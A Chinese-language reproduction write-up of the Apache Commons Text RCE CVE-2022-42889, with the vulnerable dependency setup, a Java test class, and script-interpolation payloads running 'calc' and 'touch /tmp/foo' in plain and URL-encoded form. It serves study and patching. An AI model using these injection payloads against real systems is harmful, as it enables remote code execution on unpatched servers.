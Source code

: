 # Apache Commons Text 远程代码执行漏洞 CVE-2022-42889

## 漏洞描述

Apache Commons Text 项目实现了一系列关于文本字符串的算法，专注于处理字符串和文本块。10 月 13 日，Apache 发布安全公告，修复了 Apache Commons Text 中的一个远程代码执行漏洞（CVE-2022-42889）。Apache Commons Text 版本 1.5 到 1.9 中，由于不安全的插值默认值，当输入的参数不受信任时，可能导致远程代码执行。

## 漏洞影响

```
1.5.0 ≤ Apache Commons Text ＜ 1.10.0
```

## 环境搭建

IDEA 通过 Maven 导入依赖，pox.xml 如下：

```
<dependencies>
    <dependency>
        <groupId>org.apache.commons</groupId>
        <artifactId>commons-configuration2</artifactId>
        <version>2.7</version>
    </dependency>
    <dependency>
        <groupId>org.apache.commons</groupId>
        <artifactId>commons-text</artifactId>
        <version>1.9</version>
    </dependency>
    <dependency>
        <groupId>org.apache.commons</groupId>
        <artifactId>commons-lang3</artifactId>
        <version>3.12.0</version>
    </dependency>
</dependencies>
```

测试代码：

```
package org.text;

import org.apache.commons.text.StringSubstitutor;

public class Main {
    public static void main(String[] args) {
        StringSubstitutor interpolator = StringSubstitutor.createInterpolator();
        // String payload = interpolator.replace("${script:js:new
        // java.lang.ProcessBuilder(\"calc\").start()}");
        String payload = "${script:js:new java.lang.ProcessBuilder(\"calc\").start()}";
        interpolator.replace(payload);
    }
}
```

## 漏洞复现

Payload：

```
search=${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}

url编码
search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch%20%2Ftmp%2Ffoo%27%29%7D

可以尝试
search=${url:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}
search=${dns:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}
```

## 修复建议

官方已发布漏洞补丁及修复版本，请评估业务是否受影响后，酌情升级至安全版本。
